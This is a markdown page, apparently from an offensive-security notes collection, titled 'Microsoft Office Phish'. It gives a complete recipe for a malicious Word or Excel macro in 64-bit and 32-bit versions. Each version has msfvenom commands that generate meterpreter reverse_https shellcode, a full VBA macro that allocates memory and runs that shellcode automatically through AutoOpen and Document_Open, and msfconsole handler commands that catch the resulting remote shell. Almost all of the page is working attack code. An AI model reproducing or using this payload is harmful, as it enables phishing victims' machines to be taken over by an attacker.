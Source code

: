 ```yaml
---
title: Microsoft Office Phish
layout: default
parent: Client Side Execution
---
```

# 64 bit only!

First prepare the shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As LongPtr
  Dim res As LongPtr
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
  data = buf(counter)
  res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

# 32 bit only!

First prepare the shellcode:

```
msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
  data = buf(counter)
  res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
